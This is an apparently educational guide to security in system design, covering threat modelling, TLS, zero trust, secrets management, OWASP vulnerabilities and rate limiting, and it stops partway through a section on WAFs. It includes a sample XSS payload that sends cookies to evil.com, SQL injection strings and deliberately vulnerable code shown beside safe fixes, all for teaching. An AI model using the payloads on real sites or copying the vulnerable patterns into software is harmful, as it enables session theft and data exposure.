# Security in System Design

> "Security is not a feature you add at the end — it is a property of the entire system, like reliability or performance. You cannot bolt it on."

---

## Why Security Deserves Its Own Mental Model

Samjho aise — imagine you built a beautiful house. Great doors, great windows. But you left the back door open because it was "internal." And you hid the key under the mat because "only family knows." And you wrote the WiFi password on a sticky note on the fridge.

That is how most systems are built. Security is an afterthought. Then one data breach happens, lakhs of user records leak, the company pays crores in fines, and engineers scramble to fix things under pressure.

The right mental model: **security is defense in depth**. You build multiple independent layers so that when one layer fails (and it will), the others hold. No single point of failure. No single point of trust.

This guide covers every major security concept you need to design and reason about secure systems — from HTTPS to Zero Trust, from OWASP to audit logs, from secrets management to GDPR compliance.

---

## Table of Contents

1. Threat Modeling — What Are You Protecting?
2. HTTPS and TLS — Encrypt Everything in Transit
3. HSTS — Force HTTPS on the Browser Side
4. Certificate Pinning — For Mobile Apps
5. Zero Trust Architecture — Never Trust, Always Verify
6. mTLS — Both Sides Authenticate
7. Secrets Management — Never Hardcode Credentials
8. OWASP Top 10 — The Most Common Vulnerabilities
9. Rate Limiting and DDoS Protection
10. Data Encryption at Rest
11. Data Encryption in Transit
12. Input Validation and Sanitization
13. Principle of Least Privilege
14. Audit Logging and Immutable Trails
15. Security in CI/CD Pipelines
16. PII, GDPR, and Data Privacy
17. Defense in Depth — Putting It All Together
18. Common Interview Questions
19. Key Takeaways

---

## 1. Threat Modeling — What Are You Protecting? From Whom?

### The Analogy

Before building a safe, a bank asks: what am I storing? Cash? Jewelry? Documents? Who might try to break in? A random thief? An inside job? A nation-state? The answers determine whether you need a basic safe, a vault, or a Fort Knox.

Yahi approach system design mein bhi apply hoti hai.

### STRIDE Framework

Before writing a single line of code, run every component through STRIDE:

| Threat | What It Means | Real Example |
|---|---|---|
| **S**poofing | Pretending to be someone else | Using a stolen JWT to impersonate a Zomato delivery partner |
| **T**ampering | Modifying data in transit or at rest | Changing the order amount from Rs 500 to Rs 5 before it hits the DB |
| **R**epudiation | Denying an action happened | "I never placed that order" — logs prove otherwise |
| **I**nformation Disclosure | Leaking sensitive data | Stack trace in a 500 error revealing DB schema to an attacker |
| **D**enial of Service | Making the system unavailable | Flash sale on Flipkart crashes checkout for everyone |
| **E**levation of Privilege | Gaining more access than allowed | A regular Uber user calling the driver-admin endpoint |

**Practical rule:** Draw your architecture diagram. For every box and every arrow, ask STRIDE. The output is a prioritized risk list — not a todo list to fix everything at once. Fix what matters most first.

---

## 2. HTTPS and TLS — Encrypt Everything in Transit

### The Analogy

Imagine sending a postcard. Every postal worker, every sorting facility, everyone on the route can read it. Now imagine putting that postcard inside a sealed envelope that only the recipient can open. That envelope is TLS.

**Yeh kyun important hai?** Without TLS, anyone on the network between the client and server can read and modify the data. This includes ISPs, coffee shop WiFi operators, governments doing surveillance, and man-in-the-middle attackers. In 2023, even internal corporate networks are untrusted — you cannot assume "nobody is snooping internally."

### Why ALL Traffic — Including Internal Traffic

A common mistake: "We use HTTPS for the public API, but internally, between our microservices, we use plain HTTP. It's all in our VPC anyway."

This is wrong for several reasons:
- **Insiders can eavesdrop.** A compromised container in the same VPC can sniff plaintext traffic.
- **Lateral movement.** Once an attacker gets one service, they can see all internal traffic if it is unencrypted.
- **Compliance.** PCI-DSS, HIPAA, and SOC2 require encryption in transit — everywhere, not just at the perimeter.

### TLS 1.3 Handshake — How It Works

TLS 1.3 reduced the old 2-round-trip handshake to 1 round trip. Here is the simplified flow:



**Key concepts:**

1. **Ephemeral keys (ECDHE):** The session key is generated fresh for every connection using Elliptic Curve Diffie-Hellman Ephemeral. Even if the server's private key is stolen tomorrow, past sessions cannot be decrypted. This is called **Forward Secrecy**.

2. **Certificate:** The server sends a certificate signed by a trusted Certificate Authority (CA) — like Let's Encrypt, DigiCert, or AWS Certificate Manager. This proves the server is who it claims to be (prevents impersonation).

3. **AEAD ciphers only:** TLS 1.3 removed all weak ciphers (RC4, SHA-1, RSA key exchange). Only Authenticated Encryption with Associated Data (AEAD) ciphers like AES-256-GCM remain — they provide both confidentiality and integrity.

### TLS 1.2 vs TLS 1.3 Comparison

| Feature | TLS 1.2 | TLS 1.3 |
|---|---|---|
| Round trips for handshake | 2 RTT | 1 RTT (0-RTT for resumption) |
| Forward secrecy | Optional | Mandatory |
| Weak cipher suites | Yes (RC4, etc.) | Removed entirely |
| Certificate in handshake | Plaintext | Encrypted |
| Performance | Slower | Faster |

**Interview tip:** When asked "how does HTTPS work?" — do not just say "it encrypts data." Explain the handshake, the certificate, and why forward secrecy matters. That is what separates a senior engineer's answer from a junior one.

---

## 3. HSTS — Force HTTPS on the Browser Side

### The Analogy

Imagine a store that has a front door (HTTPS) and a back door (HTTP). Even if the store prefers customers use the front door, some customers habitually try the back door first. HSTS is like bricking up the back door permanently and telling every customer's brain: "This store only has a front door. Do not even try the back."

### What HSTS Does

**HTTP Strict Transport Security (HSTS)** is a response header that tells the browser: "Never connect to this domain over plain HTTP again, for the next N seconds."

```http
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
```

Breaking this down:
- `max-age=31536000` — remember this for 1 year (in seconds)
- `includeSubDomains` — applies to all subdomains too (api.yoursite.com, etc.)
- `preload` — your domain gets added to the browser's hardcoded HSTS list (Chrome, Firefox ship with this list built-in)

### The SSL Strip Attack HSTS Prevents

Without HSTS, here is a real attack:
1. User types `bank.com` in browser (no https://)
2. Browser sends plain HTTP request: `GET http://bank.com/`
3. Attacker (on same WiFi) intercepts, strips the HTTPS redirect, talks to the real bank.com over HTTPS
4. Attacker relays traffic — user sees bank.com, attacker sees all plaintext

With HSTS: browser never makes step 2 as plain HTTP — it automatically upgrades to HTTPS before the request leaves the machine.



**Where to set it:** In your reverse proxy or API gateway configuration (Nginx, Cloudflare, AWS ALB), not in application code — so even if the app crashes, the header is still served.

---

## 4. Certificate Pinning — For Mobile Apps

### The Analogy

Normal TLS says: "I trust anyone who has a certificate from a government-approved ID shop." There are hundreds of such ID shops (CAs). Certificate pinning says: "I only trust *this specific ID* from *this specific person*." Like a VIP club that only accepts one specific person's face, not just any government ID.

### Why It Exists

Normal TLS trusts hundreds of Certificate Authorities globally. If even one CA is compromised (it has happened — DigiNotar, Symantec), an attacker can get a valid certificate for `api.yourapp.com` and run a MITM attack. A corporate firewall doing SSL inspection can also intercept traffic.

For mobile apps that call only your own backend, certificate pinning adds an extra layer: even if a CA is compromised, the pinned certificate will not match, and the app refuses to connect.

### How It Works in Android (OkHttp)

```kotlin
// Android OkHttp example — WhatsApp-style backend pinning
val client = OkHttpClient.Builder()
    .certificatePinner(
        CertificatePinner.Builder()
            .add(
                "api.yourapp.com",
                "sha256/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA=" // your cert's public key hash
            )
            .add(
                "api.yourapp.com",
                "sha256/BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB=" // backup pin (next cert)
            )
            .build()
    )
    .build()
```

Always pin **two certificates**: the current one, and your next one (which you will rotate to). Without a backup pin, a forced certificate rotation will break all old app versions in production — a disaster.

### Trade-offs

| Aspect | Details |
|---|---|
| Security gain | Prevents MITM even if CA is compromised |
| Risk | If you rotate certs without updating the pin, your app breaks for ALL users |
| Maintenance | Every certificate rotation requires a coordinated app update + store rollout |
| Recommendation | Use for high-security apps (banking, healthcare). Not needed for most apps. |

**When NOT to use:** Web browsers (cannot ship a pinned cert in HTML), apps that use third-party CDNs with frequent cert rotation, or teams that cannot coordinate cert rotation with app deployments.

---

## 5. Zero Trust Architecture — Never Trust, Always Verify

### The Analogy

The old model was like a gated residential society. Once you show your ID at the main gate, you can walk into any apartment, any floor, any room. Nobody checks you again inside.

Zero Trust is like a hospital where every floor, every ward, every medicine cabinet requires a separate badge scan — even for doctors who entered through the main entrance. Being inside gives you zero extra privileges.

**"Never trust, always verify"** — this applies to users, services, devices, and even your own engineers.

### Why Zero Trust Became Necessary

The old perimeter model assumed: inside the network = trusted. This broke because:
- Remote work means users are never "inside" the network
- Cloud means your services are on AWS, GCP, Azure — not a physical office network
- Micro-services means hundreds of services talking to each other; one compromised service can pivot to all others
- Insiders (employees, contractors) are a real threat vector

**Real example:** In 2020, the SolarWinds attack compromised the software supply chain. Attackers were "inside" the network for months. A Zero Trust architecture would have limited lateral movement because every service-to-service call would have required authentication.

### The Three Pillars



### Zero Trust Request Flow



### Key Tools

| Component | Open Source | Cloud Managed |
|---|---|---|
| Policy Decision Point | Open Policy Agent (OPA) | AWS IAM, Google IAP |
| Identity Provider | Keycloak | Okta, Auth0, Azure AD |
| Service Mesh (mTLS) | Istio, Linkerd | AWS App Mesh |
| Network Segmentation | Calico, Cilium | AWS Security Groups, VPC |
| Secrets | HashiCorp Vault | AWS Secrets Manager |

---

## 6. mTLS — Mutual TLS — Both Sides Authenticate

### The Analogy

Normal TLS is like a customer showing ID at a bank. Only the customer proves who they are.

mTLS is a military checkpoint where both the visitor AND the soldier show their credentials. Neither can enter without the other verifying them. In microservices, Service A calling Service B is the checkpoint — both sides must prove identity.

### Why mTLS for Internal Services?

In a microservices system (like Swiggy's order → restaurant → delivery → payment services), you might have 50 services. If one service gets compromised, you do not want it to freely impersonate any other service. mTLS ensures every call carries a verifiable identity.



### Service Mesh — mTLS Without Code Changes

Implementing mTLS manually in every service is impractical for a team of 50 engineers. **Service meshes** like Istio and Linkerd solve this by injecting a sidecar proxy into every pod. The sidecar handles all TLS — your application code stays unchanged.



**Certificate rotation:** Istio rotates service certificates every 24 hours automatically. Compare that to the industry norm of manual rotation every 1–2 years. More frequent rotation limits the blast radius if a cert is compromised.

### mTLS vs OAuth for Service-to-Service

| Aspect | mTLS | OAuth Client Credentials |
|---|---|---|
| Identity proof | Cryptographic certificate | Client ID + secret |
| Secret rotation | Automatic (cert rotation) | Manual or scripted |
| Revocation | CRL / OCSP | Token expiry + revocation endpoint |
| Best for | Service mesh, same cluster | Cross-org, third-party APIs |
| Overhead | Low (handled by sidecar) | HTTP call to auth server per token |

---

## 7. Secrets Management — Never Hardcode Credentials

### The Analogy

Hardcoding a database password in code is like writing your house key under the doormat and then acting surprised when you are robbed. It does not matter if the mat has a decorative pattern — anyone who looks under it (or in your GitHub history) finds the key.

Yeh baar baar hota hai — companies ki secrets GitHub pe public repo mein push ho jaati hain. Phir chaos.

### What Counts as a Secret?

- Database passwords (Postgres, MySQL, MongoDB)
- API keys (Stripe, Twilio, SendGrid, Google Maps)
- Private keys and TLS certificates
- OAuth client secrets
- Encryption keys and JWT signing keys
- Internal service credentials

### The Problem With Environment Variables (Alone)

Environment variables are better than hardcoding, but:
- They are visible to any process running as the same user
- They end up in container logs, crash dumps, process listings (`/proc/self/environ`)
- No audit trail of who accessed the secret
- No automatic rotation

The solution: a proper **secrets management system**.

### HashiCorp Vault



```python
# Application code — fetch secret at startup, never bake into image
import hvac
import os

# Vault token injected by Kubernetes vault-agent sidecar
client = hvac.Client(
    url='https://vault.internal:8200',
    token=os.environ.get('VAULT_TOKEN')
)

def get_db_password() -> str:
    secret = client.secrets.kv.v2.read_secret_version(
        path='prod/payment-service/postgres',
        mount_point='secret'
    )
    return secret['data']['data']['password']
```

### AWS Secrets Manager

```python
import boto3
import json

sm = boto3.client('secretsmanager', region_name='ap-south-1')

def get_secret(secret_name: str) -> dict:
    response = sm.get_secret_value(SecretId=secret_name)
    return json.loads(response['SecretString'])

# At startup — never hardcode
db_creds = get_secret('prod/zomato/postgres-orders')
# Secrets Manager can auto-rotate RDS passwords every 30 days
```

### Kubernetes Secrets — the Right Way

Kubernetes Secrets are base64-encoded, not encrypted by default. You must enable **encryption at rest for etcd** and use an **external secrets operator** to sync from Vault or AWS Secrets Manager:

```yaml
# ExternalSecret — syncs from AWS Secrets Manager into a K8s Secret
apiVersion: external-secrets.io/v1beta1
kind: ExternalSecret
metadata:
  name: postgres-credentials
spec:
  refreshInterval: 1h
  secretStoreRef:
    name: aws-secrets-manager
    kind: ClusterSecretStore
  target:
    name: postgres-credentials  # creates a K8s Secret with this name
  data:
    - secretKey: password
      remoteRef:
        key: prod/payment-service/postgres
        property: password
```

### Secrets Management Best Practices

| Practice | Why |
|---|---|
| Never log secrets | Logs are often stored unencrypted, forwarded to third-party services |
| Use IAM roles, not access keys | EC2/Lambda can get AWS credentials without a stored secret at all |
| Rotate automatically | Limits blast radius if a secret is leaked |
| Audit all access | Know who fetched which secret and when (SOC2 requirement) |
| Short-lived dynamic credentials | Vault can issue DB credentials that expire in 1 hour |
| Separate secrets per environment | prod secrets never touch dev/staging environments |

---

## 8. OWASP Top 10 — The Most Common Vulnerabilities

OWASP (Open Web Application Security Project) publishes a list of the top 10 most critical security risks. These are not theoretical — they are the actual attack patterns behind real breaches. Understanding them is table-stakes for any system design interview.

### A1: Injection — SQL Injection

**What it is:** User-supplied input is interpreted as code (SQL, shell commands, LDAP queries) rather than data.

**Real example:** In 2012, LinkedIn suffered a breach partly due to insufficient input handling. SQL injection is the vulnerability in `https://example.com/user?id=1' OR '1'='1`.

```python
# VULNERABLE — string concatenation with user input
def get_user_vulnerable(username: str):
    query = f"SELECT * FROM users WHERE username = '{username}'"
    # Attacker sends: username = "' OR '1'='1' --"
    # Becomes: SELECT * FROM users WHERE username = '' OR '1'='1' --'
    # Returns ALL users. Dumps the entire table.

# SAFE — parameterized queries
def get_user_safe(username: str):
    query = "SELECT * FROM users WHERE username = %s"
    cursor.execute(query, (username,))  # Driver handles escaping
    return cursor.fetchone()

# ALSO SAFE — ORM (SQLAlchemy, Prisma, Django ORM)
user = User.query.filter_by(username=username).first()
# ORM always uses parameterized queries under the hood
```

**System design defense:** Enforce at every DB access layer. Use an ORM as the default. Add a WAF rule to detect common SQL injection patterns at the edge.

### A3: Cross-Site Scripting (XSS)

**What it is:** Attacker injects malicious JavaScript into a page that other users load and execute. Yeh sabse common browser vulnerability hai.

```javascript
// Attacker posts a comment:
// <script>fetch('https://evil.com/steal?cookie='+document.cookie)</script>

// If your React component renders this unsafely:
// VULNERABLE
<div dangerouslySetInnerHTML={{ __html: userComment }} />

// SAFE — React escapes by default
<div>{userComment}</div>

// Content Security Policy header — prevents inline script execution
// Even if XSS injection succeeds, CSP blocks the script from running
```

**Content Security Policy (CSP) header:**
```http
Content-Security-Policy: default-src 'self'; script-src 'self' https://cdn.yourdomain.com; object-src 'none';
```

This tells the browser: only execute scripts from your own domain and your CDN. Block everything else. Even if an attacker injects a `<script>` tag, the browser will refuse to run it.

### A8: Cross-Site Request Forgery (CSRF)

**What it is:** An attacker tricks a logged-in user's browser into making a request to your API without the user's knowledge.

**Example:** You are logged into your bank. You visit `evil.com`. That page has:
```html

```
Your browser automatically sends your session cookie with this request. The bank processes the transfer.

**Defenses:**

1. **SameSite cookies** — the simplest defense:
```http
Set-Cookie: session=abc123; SameSite=Strict; Secure; HttpOnly
```
`SameSite=Strict` means the cookie is NEVER sent on cross-origin requests. `evil.com` cannot trigger requests that carry your bank's cookie.

2. **CSRF tokens** — for forms that need to work across origins:
```python
# Server generates a random token, stores in session
csrf_token = secrets.token_hex(32)
session['csrf_token'] = csrf_token

# HTML form includes it as hidden field
# <input type="hidden" name="csrf_token" value="{{ csrf_token }}">

# Server validates on every state-changing request
if request.form.get('csrf_token') != session.get('csrf_token'):
    abort(403, "CSRF validation failed")
```

### A1 (API): Broken Object Level Authorization (BOLA / IDOR)

**What it is:** The most common API vulnerability. User A can access User B's data by changing an ID in the URL. Also called **Insecure Direct Object Reference (IDOR)**.

**Real example:** In 2019, Instagram had an IDOR vulnerability where changing the user ID in an API call exposed another user's private data.

```python
# VULNERABLE — fetches by ID without checking ownership
@app.get("/orders/{order_id}")
async def get_order(order_id: int, current_user: User = Depends(get_current_user)):
    return db.query(Order).filter(Order.id == order_id).first()
    # Attacker changes order_id from 123 (theirs) to 124 (someone else's)
    # Gets full order details of another user. Full stop.

# SAFE — always enforce ownership in the query
@app.get("/orders/{order_id}")
async def get_order(order_id: int, current_user: User = Depends(get_current_user)):
    order = db.query(Order).filter(
        Order.id == order_id,
        Order.user_id == current_user.id   # THE critical line
    ).first()
    if not order:
        raise HTTPException(status_code=404)  # Same error for "not found" and "not yours"
        # Do NOT return 403 — that tells the attacker the order exists
    return order
```

**Authorization check on every request** — not just at login, not just in the UI, but in every single API handler that touches data belonging to a specific user.

### A5: Security Misconfiguration

**What it is:** Default credentials, debug endpoints left on in production, overly permissive CORS, verbose error messages, open S3 buckets.

**Real examples:**
- Capital One (2019): An SSRF attack via a misconfigured WAF + overly permissive IAM role led to 100 million records stolen
- Countless companies have had open S3 buckets with private user data indexed by search engines

**System design defenses:**

```python
# Disable debug mode in production
if os.environ.get('ENVIRONMENT') == 'production':
    DEBUG = False
    SHOW_STACK_TRACES = False

# Return generic error messages in production
@app.exception_handler(Exception)
async def generic_error_handler(request, exc):
    if settings.debug:
        return JSONResponse({"error": str(exc), "traceback": traceback.format_exc()})
    else:
        return JSONResponse({"error": "Internal server error"}, status_code=500)
        # Log the full error internally, but never expose to client
```

```bash
# AWS S3 — block all public access (do this for every bucket)
aws s3api put-public-access-block \
    --bucket your-private-bucket \
    --public-access-block-configuration \
    "BlockPublicAcls=true,IgnorePublicAcls=true,BlockPublicPolicy=true,RestrictPublicBuckets=true"
```

### Full OWASP Top 10 Quick Reference

| # | Vulnerability | System Design Response |
|---|---|---|
| A01 | Broken Access Control | AuthZ on every endpoint, BOLA checks, deny by default |
| A02 | Cryptographic Failures | TLS everywhere, AES-256 at rest, no MD5/SHA-1, key rotation |
| A03 | Injection | Parameterized queries, ORM, input validation, WAF |
| A04 | Insecure Design | Threat modeling, security requirements, abuse case testing |
| A05 | Security Misconfiguration | Least privilege, disable debug in prod, CSP headers, HSTS |
| A06 | Vulnerable Components | Dependency scanning in CI/CD, SCA tools, auto-update bots |
| A07 | Auth Failures | MFA, account lockout, short token expiry, breached password checks |
| A08 | Software Integrity Failures | Sign artifacts, verify checksums, SBOM, secure supply chain |
| A09 | Logging Failures | Structured logs, immutable audit trail, alerts on anomalies |
| A10 | SSRF | Allowlist outbound URLs, block 169.254.0.0/16 (cloud metadata) |

---

## 9. Rate Limiting and DDoS Protection

### The Analogy

A DDoS is like thousands of people calling a restaurant simultaneously, asking for reservations they never intend to keep. Every real customer gets a busy signal.

Rate limiting is like a restaurant policy: "You can call us once every 5 minutes. After that, we stop answering your number."

### Why Both Rate Limiting AND DDoS Protection?

They are different in scale:
- **Rate limiting:** Protects against individual abusive clients (brute force, scraping, API abuse). Operates at the API layer.
- **DDoS protection:** Protects against volumetric attacks from thousands of IPs (botnets). Operates at the network/CDN layer.

You need both. DDoS protection without rate limiting still lets individual abusers hammer your API. Rate limiting without DDoS protection still lets a botnet saturate your bandwidth.

### Defense Layers Architecture



### Rate Limiting Algorithms

| Algorithm | How It Works | Best For |
|---|---|---|
| Fixed Window | N requests per minute window | Simple, but burst at window boundary |
| Sliding Window | N requests in any rolling 60s period | Smoother, prevents boundary bursting |
| Token Bucket | Bucket refills at rate R; each request consumes a token | Allows bursts up to bucket size |
| Leaky Bucket | Requests process at fixed rate; excess queued or dropped | Smoothest output rate |

**Redis-based sliding window (production example):**

```python
import redis
import time

r = redis.Redis(host='redis.internal', port=6379, decode_responses=True)

def check_rate_limit(identifier: str, limit: int = 100, window_sec: int = 60) -> tuple[bool, int]:
    """
    Returns (is_allowed, requests_remaining).
    identifier can be user_id, IP, or API key.
    """
    key = f"rl:{identifier}"
    now = time.time()
    window_start = now - window_sec

    pipe = r.pipeline()
    pipe.zremrangebyscore(key, 0, window_start)       # Remove old entries
    pipe.zadd(key, {str(now): now})                    # Add current request
    pipe.zcard(key)                                    # Count in window
    pipe.expire(key, window_sec)
    results = pipe.execute()

    count = results[2]
    allowed = count <= limit
    remaining = max(0, limit - count)

    return allowed, remaining

# FastAPI middleware
@app.middleware("http")
async def rate_limit_middleware(request: Request, call_next):
    user_id = get_user_id_from_token(request)
    allowed, remaining = check_rate_limit(user_id or request.client.host)

    if not allowed:
        return JSONResponse(
            {"error": "Too many requests"},
            status_code=429,
            headers={
                "Retry-After": "60",
                "X-RateLimit-Limit": "100",
                "X-RateLimit-Remaining": "0"
            }
        )

    response = await call_next(request)
    response.headers["X-RateLimit-Remaining"] = str(remaining)
    return response
```

### Web Application Firewall (WAF)

A WAF sits in front of your application and inspects HTTP traffic for known attack patterns:

